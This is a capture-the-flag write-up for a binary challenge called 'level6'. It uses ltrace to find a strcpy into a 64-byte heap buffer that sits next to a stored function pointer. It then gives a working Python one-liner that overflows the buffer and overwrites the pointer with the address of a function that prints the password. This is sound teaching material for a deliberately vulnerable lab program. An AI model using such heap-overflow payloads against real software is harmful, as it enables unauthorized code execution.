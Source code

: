 # Level 6

## Initial Context

- One file: `level6`

## Solving the Challenge

The executable expects one argument.

If run using `ltrace`, we can see that there is 2 constant allocations.

```bash
$ ltrace ./level6 hello
...
malloc(64)                        = 0x0804a008
malloc(4)                         = 0x0804a050
strcpy(0x0804a008, "hello")
puts("Nope")
```

The program is copying `argv[1]` to the first allocated memory.

By looking at the code, we can also see that the second allocated memory contains a function pointer to the method saying "Nope".

We can try to override the second memory by `n`'s address:

```python
# padding of 64
"A" * 64

# padding of 8 to go from the first memory's end to the new memory start
+ "A" * 8

# n's address in LE
+ "\x54\x84\x04\x08"
```

The program will `cat` the password for us, so no need to save the payload into a file, we can send it directly to the vulnerable program:

```bash
$ ./level6 $(python -c 'print "A" * (64 + 8) + "\x54\x84\x04\x08"')
<flag>
```
